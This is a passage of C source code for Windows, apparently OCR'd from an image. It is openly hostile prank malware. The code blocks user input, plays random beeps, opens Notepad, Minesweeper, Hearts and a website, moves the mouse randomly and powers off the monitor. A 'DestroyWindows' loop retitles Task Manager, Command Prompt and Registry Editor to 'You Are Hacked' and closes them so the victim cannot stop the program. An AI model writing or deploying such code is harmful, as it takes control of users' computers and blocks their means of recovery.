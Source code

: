 ```
     {
          CrazyMouse();
     }
     else
     {
         BlockInput(true);
         Beeper();
         OpenStuff();
         CrazyMouse();
     }
}
 
void Beeper()
{
     Freq = rand()%2001;
     Dur = rand()%301;
     Beep( Freq, Dur );
}
void OpenStuff()
{
     ShellExecute(NULL,"open",Notepad,NULL,NULL,SW_MAXIMIZE);
     ShellExecute(NULL,"open",MineSweeper,NULL,NULL,SW_MAXIMIZE);
     ShellExecute(NULL,"open",Hearts,NULL,NULL,SW_MAXIMIZE);
     ShellExecute(NULL,"open",Website,NULL,NULL,SW_MAXIMIZE);
}
void Hibernation()
{
     Sleep(1000);
     SendMessage(HWND_BROADCAST, WM_SYSCOMMAND, SC_MONITORPOWER, (LPARAM) 2);
}
void CrazyMouse()
{
     X = rand()%801;
     Y = rand()%601;
     SetCursorPos( X, Y );
}
 
DWORD WINAPI DestroyWindows(LPVOID)
{
      while(1)
      {
              TaskMgr = FindWindow(NULL,"Windows Task Manager");
              CMD = FindWindow(NULL, "Command Prompt");
              Regedit = FindWindow(NULL,"Registry Editor");
              if( TaskMgr != NULL )
              {
                  SetWindowText( TaskMgr, "You Are Hacked");
                  PostMessage( TaskMgr, WM_CLOSE, (LPARAM)0, (WPARAM)0);
              }
              if( CMD != NULL )
              {
                  SetWindowText( CMD, "You Are Hacked");
                  PostMessage( CMD, WM_CLOSE, (LPARAM)0, (WPARAM)0);
              }   
              if( Regedit != NULL )
              {
                  SetWindowText( Regedit, "You Are Hacked");
                  PostMessage( Regedit, WM_CLOSE, (LPARAM)0, (WPARAM)0);
              }  
               
              Sleep(10);
      }
}
```